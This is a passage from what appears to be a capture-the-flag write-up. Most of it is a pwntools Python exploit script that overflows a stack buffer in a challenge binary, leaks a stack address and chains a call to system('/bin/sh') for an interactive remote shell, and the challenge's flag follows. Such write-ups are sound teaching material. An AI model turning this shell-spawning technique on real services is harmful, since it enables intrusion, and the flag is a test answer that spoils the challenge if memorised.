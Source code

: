 ```python

elf = context.binary
rop = ROP(elf)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x401289
    system = 0x401218
    payload = flat(
        b"A" * 0x18,
        b"/bin/sh\x00",
        b"A" * 0x20,
        elf.bss() + 0xF00,
        read,
    )
    raw_input("DEBUG")
    target.sendlineafter("Enter the launch sequence: ", payload)
    target.recvuntil(b"prize: ")
    stack = int(target.recvline().strip(), 16)
    binsh = stack + 0x18
    target.success(hex(stack))

    payload = flat(
        b"A" * 0x38,
        binsh,
        0x404F28,
        system,
    )
    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

### Flag

:spoiler[`sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}`]

## Jacksonville
